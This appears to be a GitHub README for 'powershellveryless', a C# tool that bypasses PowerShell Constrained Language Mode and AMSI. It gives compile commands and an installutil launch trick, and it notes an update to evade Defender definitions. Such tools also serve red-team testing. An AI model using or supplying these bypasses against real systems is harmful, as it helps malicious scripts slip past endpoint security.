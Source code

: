 # powershellveryless
== Constrained Language Mode + AMSI bypass all in one ==<br /><br />
Quick & dirty (and very simple) CL + AMSI bypass using C#<br />
Compile it (https://decoder.cloud/2017/11/02/we-dont-need-powershell-exe/): 
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /reference: C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\system.management.automation.dll 
/out:c:\setup\powershellveryless.exe c:\scripts\powershellveryless.cs
```
<br />
Launch it: powerhsellveryless.exe (your_ps1_script)
 <br /><br /><br />
powershellveryless_2.cs "installutil" version: <br />

Launch it: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil  /logfile= /LogToConsole=false /ScriptName=(your_ps1_script) /U (exefile)

<br>2019-03-13 addded quick&dirty fix in order to bypass latest Defender definitions and new AMSI bypass
<br>https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs
